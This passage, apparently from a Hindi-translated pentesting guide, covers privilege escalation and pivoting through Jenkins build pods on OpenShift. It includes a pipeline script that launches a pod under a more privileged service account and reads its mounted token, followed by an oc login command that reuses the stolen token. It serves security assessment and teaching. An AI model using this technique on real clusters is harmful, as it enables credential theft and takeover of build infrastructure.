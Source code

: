 अपने आप से निम्नलिखित प्रश्न पूछें:

- किस सेवा खाते का उपयोग निर्माण पोड को तैनात करने के लिए किया जा रहा है?
- इसके पास कौन से भूमिकाएँ और अनुमतियाँ हैं? क्या यह उस नामस्थान के रहस्यों को पढ़ सकता है जिसमें मैं वर्तमान में हूँ?
- क्या मैं अन्य निर्माण पोड को और अधिक सूचीबद्ध कर सकता हूँ?
- एक समझौता किए गए sa से, क्या मैं मास्टर नोड/पोड पर कमांड निष्पादित कर सकता हूँ?
- क्या मैं क्लस्टर को और अधिक सूचीबद्ध कर सकता हूँ ताकि कहीं और पिवट कर सकूँ?
- कौन सा SCC लागू है?

आप यह पता लगा सकते हैं कि कौन से oc/kubectl कमांड जारी करने हैं [यहाँ](../openshift-basic-information.md) और [यहाँ](../../kubernetes-security/kubernetes-enumeration.md)।

### संभावित privesc/pivoting परिदृश्य

मान लीजिए कि आपकी मूल्यांकन के दौरान आपको पता चला कि सभी जेनकिंस निर्माण एक नामस्थान में चल रहे हैं जिसे _worker-ns_ कहा जाता है। आपने यह पता लगाया कि एक डिफ़ॉल्ट सेवा खाता जिसे _default-sa_ कहा जाता है, निर्माण पोड पर माउंट किया गया है, हालाँकि इसके पास कुछ संसाधनों पर पढ़ने की पहुँच के अलावा इतनी अनुमतियाँ नहीं हैं लेकिन आप एक मौजूदा सेवा खाते को पहचानने में सक्षम थे जिसे _master-sa_ कहा जाता है।
मान लीजिए कि आपके पास चल रहे निर्माण कंटेनर के अंदर oc कमांड स्थापित है।

नीचे दिए गए निर्माण स्क्रिप्ट के साथ आप _master-sa_ सेवा खाते पर नियंत्रण प्राप्त कर सकते हैं और आगे सूचीबद्ध कर सकते हैं।
```groovy
pipeline {
stages {
stage('Process pipeline') {
agent {
kubernetes {
yaml """
spec:
serviceAccount: master-sa
containers:
- name: evil
image: random_image:1.0
imagePullPolicy: IfNotPresent
command:
- sleep
args:
- 1d
"""
}
}
stages {
stage('Say hello') {
steps {
sh 'token=$(cat /run/secrets/kubernetes.io/serviceaccount/token)'
sh 'oc --token=$token whoami'
}
}
}
}
}
}
```
आपकी पहुँच के आधार पर, या तो आपको बिल्ड स्क्रिप्ट से अपने हमले को जारी रखना होगा या आप चल रहे क्लस्टर पर इस sa के रूप में सीधे लॉगिन कर सकते हैं:
```bash
oc login --token=$token --server=https://apiserver.com:port
```
यदि इस sa के पास पर्याप्त अनुमति है (जैसे pod/exec), तो आप मास्टर नोड पॉड के अंदर कमांड निष्पादित करके पूरे jenkins इंस्टेंस पर नियंत्रण प्राप्त कर सकते हैं, यदि यह उसी namespace के भीतर चल रहा है। आप इसके नाम और इस तथ्य के माध्यम से इस पॉड की पहचान आसानी से कर सकते हैं कि इसे jenkins डेटा संग्रहीत करने के लिए उपयोग किए जाने वाले PVC (persistant volume claim) को माउंट करना चाहिए।
```bash
```